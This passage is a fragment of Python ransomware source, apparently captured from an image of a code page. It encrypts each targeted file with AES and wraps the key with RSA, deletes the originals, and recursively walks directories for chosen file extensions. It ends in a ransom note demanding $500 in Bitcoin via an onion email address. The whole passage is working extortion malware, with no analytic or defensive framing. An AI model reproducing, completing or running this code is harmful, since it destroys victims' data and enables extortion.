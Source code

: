 ```python
            # Encrypt with AES
            cipher = Cipher(
                algorithms.AES(aes_key),
                modes.CFB(iv),
                backend=default_backend()
            )
            encryptor = cipher.encryptor()
            ciphertext = encryptor.update(plaintext) + encryptor.finalize()
            
            # Encrypt AES key with RSA
            encrypted_key = self.public_key.encrypt(
                aes_key,
                padding.OAEP(
                    mgf=padding.MGF1(algorithm=hashes.SHA256()),
                    algorithm=hashes.SHA256(),
                    label=None
                )
            )
            
            # Write encrypted file
            with open(file_path + '.encrypted', 'wb') as f:
                f.write(iv)
                f.write(encrypted_key)
                f.write(ciphertext)
            
            # Delete original
            os.remove(file_path)
            
        except Exception as e:
            pass
    
    def encrypt_directory(self, directory):
        """Recursively encrypt directory"""
        for root, dirs, files in os.walk(directory):
            for file in files:
                if any(file.endswith(ext) for ext in self.extensions):
                    file_path = os.path.join(root, file)
                    self.encrypt_file(file_path)
    
    def drop_ransom_note(self, directory):
        """Create ransom note"""
        note = """
═══════════════════════════════════════════════════════════
        YOUR FILES HAVE BEEN ENCRYPTED
═══════════════════════════════════════════════════════════

All your important files have been encrypted with military-grade
encryption. The only way to recover your files is to purchase
the decryption key from us.

WHAT HAPPENED?
Your files are encrypted with RSA-2048 and AES-256 algorithms.
Without our decryption key, recovery is impossible.

HOW TO RECOVER?
1. Send $500 in Bitcoin to: [BITCOIN_ADDRESS]
2. Email your computer ID to: recovery@[].onion
3. You will receive decryption key within 24 hours

YOUR COMPUTER ID: {}

WARNING:
- Do not rename encrypted files
```